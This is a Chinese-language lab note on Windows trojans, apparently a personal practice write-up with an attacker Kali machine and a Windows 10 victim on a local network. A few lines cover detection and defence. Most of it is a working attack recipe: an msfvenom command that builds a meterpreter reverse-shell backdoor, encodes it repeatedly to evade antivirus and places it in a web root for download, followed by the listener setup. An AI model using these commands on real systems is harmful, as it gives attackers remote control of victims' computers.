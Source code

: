 # 测试环境

## 攻击者

**kail:192.168.188.134**

kail下载地址：https://mirrors.aliyun.com/kali-images/kali-2021.3/kali-linux-2021.3-live-i386.iso

## 被攻击者：

**win10: 192.168.188.132**

# windows木马排查：

1. 1、可能通过网络连接观察异常的端口或者IP通信
2. 2、可以通过任务管理器，详细信息，找到异常文件，使用杀毒软件检测

# 防御：

1. 1、开启windows 防火墙
2. 2、安装正版杀毒软件

# 实验

## 生成后门

```
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.188.134 LPORT=9999 -b "\x00" -e x86/shikata_ga_nai -i 10 -f exe -o /var/www/html/vhosts.exe
```

## 开启监听

```
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
show options
set lhost 192.168.188.134
set lport 9999
```

`systemctl start apache2`

`netstat -ntpl`

`netstat -ano|more`